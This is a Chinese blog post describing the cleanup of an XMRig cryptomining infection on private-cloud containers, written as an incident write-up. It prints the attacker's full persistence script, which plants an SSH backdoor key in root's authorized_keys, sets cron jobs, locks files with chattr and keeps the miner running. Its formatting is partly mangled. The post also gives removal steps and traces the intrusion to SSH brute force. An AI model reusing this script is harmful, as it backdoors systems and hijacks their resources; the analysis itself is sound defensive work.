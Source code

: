 ```yaml
---
title:          "记录一次xmrig木马查杀"
subtitle:       ""
description:    ""
date:           2024-01-10T14:26:37+08:00
image:          "0.PNG"
tags:           []
categories:     []
draft: false
---
```

![](./0.PNG)

## Start
尽管挖矿热潮逐渐消退，以太坊等一众主流虚拟货币不再推荐显卡挖矿。但是还是不乏一些恶趣味的黑客秉着“蚊子在小也是肉的原则”在公共网络上扫描网段寻找可用的肉鸡目标。

上家公司做私有云相关的业务，机器隔三差五就被日。其中最常见的就是挖矿病毒XMRig

> [XMRig](https://github.com/xmrig/xmrig) 是一款高性能、开源、跨平台 RandomX、KawPow、CryptoNight 和 GhostRider 统一 CPU/GPU 挖矿程序和 RandomX 基准测试。官方二进制文件适用于 Windows、Linux、macOS 和 FreeBSD。

简单讲XMRig本身只是单纯的用于[门罗币Monero]()/[比特币]()的挖矿软件，但是常被黑客搭配保活程序作为挖矿病毒使用。

## First
保活进程解析,我们将进程检索结果中这一大串异常的东西拿出来看看。

![](./1.PNG)
```
 #!/bin/bash
 #
 # 这里一处很狡猾的设计，程序的运行目录在/var/tmp/.logs/.xmr文件中，但这个文件在病毒成功启动后就会被删除
 FOLDER="$(cat /var/tmp/.logs/.xmr)"

 # 以下为黑客而已注入的SSH公钥
 sshkey="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfWpOBY9XU2gUh6bfANlquq8YWUNh+eZaodVBYCBaW+uq2eyNl5XjjM+r0FCPhatw5xK3MQTSWQha/5J6qQ/IPZSB0ycCRb/GLoMWMxuQ4LTXLFNBsS90G7oKj5seh1/LonfQL1qlhIG67SSxLhVUrhj9xZctwu7bp/BHUZYTH5qWKrOqV0sPgC3KxIEQV4Row7J1jQLeOGLUtrf33V3l/booVPCF2fJW7+KDnvjpb1tESr/udhQ6OJYdFdQiL75aJbKql3lOemM5MugebtW52MG/ZjI7TePYyqXcOV9MammvChxxslRWM81lMvDYe6S8pg/1aNbmeQJCpWkin5hN/ localhost"
 hashid="349d893caaedd7552248f00dbdab0737fdcc15aefd36825603d3fe84e62e39cf"
 ###########

 # 公钥注入函数
 placekey() {
 	.chattr -iajtdu "/root" ;
 	chattr -R -iajtdu "/root/.ssh"
 	.echo $sshkey >> "/root/.ssh/authorized_keys"
 	.chmod 600 "/root/.ssh/authorized_keys"
 	.chattr +ia "/root/.ssh/authorized_keys"
 }
 sshkeyset() {
 	.if [ $(id -u) = 0 ]; then
 		..if [ -d "/root/.ssh/" ] && [ -f "/root/.ssh/authorized_keys" ]; then
 			...if ! cat "/root/.ssh/authorized_keys" | grep -q "${sshkey}" ; then
 				....placekey
 			...fi
 		..else
 			...if [ ! -d "/root/.ssh/" ]; then
 				....chattr -iajtdu "/root"
 				....mkdir "/root/.ssh/"
 			...fi
 			...placekey
 		..fi
 	.fi
 }

 # 设定定时任务
 cronjob() {
 	.if ! crontab -l | grep -q 'updat3'; then
 		..if [ $(id -u) = 0 ]; then
 			...chattr -R -iajtdu /var/spool/cron/crontabs
 		..fi
 		..
 		..echo "@daily $FOLDER/start" > $FOLDER/.tempo
 		..echo "@reboot $FOLDER/updat3 > /dev/null 2>&1 & disown" >> $FOLDER/.tempo
 		..echo "@monthly $FOLDER/updat3  > /dev/null 2>&1 & disown" >> $FOLDER/.tempo
 		..crontab $FOLDER/.tempo
 		..sleep 1
 		..rm -rf $FOLDER/.tempo
 	.fi
 }  :
 # 删除自身
 delete() { 
 	.if [ -f $FOLDER/config.json ]; then
 		..chattr -R -iajtdu $FOLDER/config.json
 		..rm -rf $FOLDER/config.json
 		..sleep 1
 		..killall xmrig
 		..pkill xmrig
 	.fi
 }
 # xmrig启动函数
 run() {
 	.if ! pgrep -x xmrig >/dev/null; then
    # 这里会对xmrig程序进行hash校验，毕竟肥水不流外人田：有一种操作是后来的黑客利用之前人的病毒通过修改挖矿地址来修改受益对象。所以一旦发现文件 hash值被修改就会删除被修改的文件
 		..if [[ $hashid == $(sha256sum $FOLDER/xmrig | awk '{print $1}') ]]; then
 			...$FOLDER/xmrig > /dev/null 2>&1 & disown
 		..else
 			...chattr -R -iajtdu "$FOLDER" "/var/tmp/.logs/.xmr"
 			...rm -rf $FOLDER /var/tmp/.logs/.xmr
 			...crontab -r
 			...exit;
 		..fi
 	.fi
 }
 # 这里一处死循环，重复执行整个脚本以保证保活
 while : do
 	.sshkeyset
 	.sleep 1
 	.cronjob
 	.sleep 1
 	.delete
 	.sleep 1
 	.run
 	.sleep 60 done /var/tmp/.mint-xmr/updat3
```

简单讲如上脚本干了这么几件事情
- 首先是入侵者公钥的持久化
- 其次是自我修复，如果发现有人尝试移除未知公钥就会立刻添加回去
- 定时任务：通过crontab设置定时人物在系统启东时运行程序，并在每日，每次重启，每月进行更新，保证病毒运行
- 自我守护：通过不断检测xmrig是否运行，如果被终止脚本会立刻重启xmrig
- 自我防护：如果检测到xmrig被替换，脚本会删除xmrig并结束自身

  肥水不流外人田的设计，没有这一步，后来者黑客可以修改xmrig文件，替换其中的挖矿密钥使得收益归到后来者

- 文件锁： 对所有关键性文件都是用chattr命令设置为不可更改，防止被用户破坏

## Second - Clean

1. 首先要清理病毒原文件以及脚本文件。

    但是在之前说过，作者很狡猾，启动程序所在的目录是被写在一个临时文件中，这个文件又会在程序启动后被自我删除。

    于是只可以使用笨办法，根据其中的异常程序名称updat3做一定范围的全盘搜索

    ``` find / -path "/remote-home" -prune -o -name "updat3" -print```

    ![](./2.PNG)

    > _其实这里有个误区，因为当时公司做的是私有云服务，服务器主机中病毒后潜意识的以为病毒程序在宿主机中，但是事实上在容器内，所以一开始各种主机范围内目录的搜索都没有结果，百思不得其解_

    定位完成后删除所有相关文件

1. 终止所有异常进程，使用pkill

1. 清理黑客的ssh密钥

1. 清理contrab任务

## Third

在后续对入侵的溯源中发现了其他几个异常的容器，以及ssh日志大量的爆破记录。大致上可以确定入侵原因应该是弱口令。~~不过这几个容器的用户并没有承认就是了，乐~~ 因为宿主机服务器本身的密码是强密码，也没有存在什么对外暴露的服务，唯一有的只有被代理出去的容器ssh服务。

黑客利用了一些公网网络扫描工具发现了这些暴露出来的ssh端口服务，并对其进行爆破（在后续的检查中，所有的容器的ssh日志都存在不同程度的爆破记录）

![Alt text](image.png)

## Last

### 靠背哦，其实我是全栈开发来着！！！